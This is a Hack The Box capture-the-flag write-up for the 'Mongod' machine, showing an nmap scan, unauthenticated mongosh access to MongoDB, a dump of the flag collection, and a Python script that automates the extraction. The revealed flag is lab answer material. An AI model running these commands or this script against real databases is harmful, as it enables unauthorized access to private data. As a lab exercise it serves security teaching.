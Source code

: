 ﻿# Hack The Box - Mongod Writeup

# 🔥 Overview
**Machine Name:** Mongod  
**Difficulty:** Easy  
**Vulnerability:** MongoDB Misconfiguration  
**Attack Vector:** Unauthenticated Database Access  
**Technology Stack:** MongoDB NoSQL Database (TCP:27017)  

---

## 🎯 **Target Enumeration & Recon**

# **1️⃣ Nmap Scan**
We start with an **Nmap** scan to identify open ports and services running on the target machine:

```bash
nmap -sC -sV -p- 10.129.107.200
```

**Results:**
```
PORT      STATE SERVICE    VERSION
27017/tcp open  mongodb    MongoDB 3.6.8
```
MongoDB is running on **port 27017**, and based on the **version (3.6.8)**, it might be **misconfigured**.

---

# 🚀 **Exploitation: Unauthenticated MongoDB Access**
MongoDB sometimes allows **unauthenticated access**, meaning we can connect and extract information **without credentials**.

# **2️⃣ Connecting to MongoDB**
We use `mongosh` (MongoDB shell) to check if we have direct access:

```bash
mongosh mongodb://10.129.107.200:27017
```

If we connect successfully, we can list the available databases:

```javascript
show dbs;
```

**Output:**
```
admin                  32.00 KiB
config                 72.00 KiB
local                  72.00 KiB
sensitive_information  32.00 KiB
users                  32.00 KiB
```

The **`sensitive_information`** database seems interesting.

---

# 🎯 **Extracting the Flag**
Let's switch to the **sensitive_information** database and list its collections:

```javascript
use sensitive_information;
show collections;
```

**Output:**
```
flag
```

We extract the data:

```javascript
db.flag.find();
```

**Output:**
```json
[
  {
    "_id": ObjectId("630e3dbcb82540ebbd1748c5"),
    "flag": "1b6e6fb359e7c40241b6d431427ba6ea"
  }
]
```

✅ **FLAG FOUND:** `1b6e6fb359e7c40241b6d431427ba6ea`

---

# 🔥 **Automating the Exploit**
Instead of doing this manually, we created a Python exploit:

```python
import os
import subprocess
import re

TARGET_IP = "10.129.107.200"
OUTPUT_FILE = "mongo_output.json"

def extract_flag():
    print("[*] Connecting to MongoDB and extracting flag...")

    mongosh_commands = """
    show dbs;
    use sensitive_information;
    show collections;
    db.flag.find();
    """

    result = subprocess.run(
        ["mongosh", f"mongodb://{TARGET_IP}:27017", "--quiet"],
        input=mongosh_commands,
        text=True,
        capture_output=True
    )

    output = result.stdout.strip()
    if not output:
        print("[-] No output received from MongoDB.")
        return

    with open(OUTPUT_FILE, "w") as f:
        f.write(output)

    print(f"[+] MongoDB output saved to {OUTPUT_FILE}")

    match = re.search(r"flag:\s*'([a-f0-9]+)'", output)
    if match:
        flag = match.group(1)
        print(f"[✔] FLAG EXTRACTED: {flag}")
    else:
        print("[-] Flag not found.")

if __name__ == "__main__":
    extract_flag()
```

Save this script as `mongo_pwn.py` and run:

```bash
python3 mongo_pwn.py
```

---

# 🎯 **Conclusion**
This box demonstrates the **importance of securing MongoDB** against unauthenticated access. The key takeaways:

- Always **require authentication** for databases.
- **Disable remote access** if not needed.
- **Upgrade MongoDB** to prevent known exploits.

✅ **Mission Accomplished!** 🎉

---

# 💀 **AfterDark Security**
Follow **#AfterDark** for more **CTF solutions, pentesting tricks, and cybersecurity research!**  
🚀 **GitHub:** [Your Repo Link]  
🐦 **Twitter:** [Your Twitter Handle]  

---

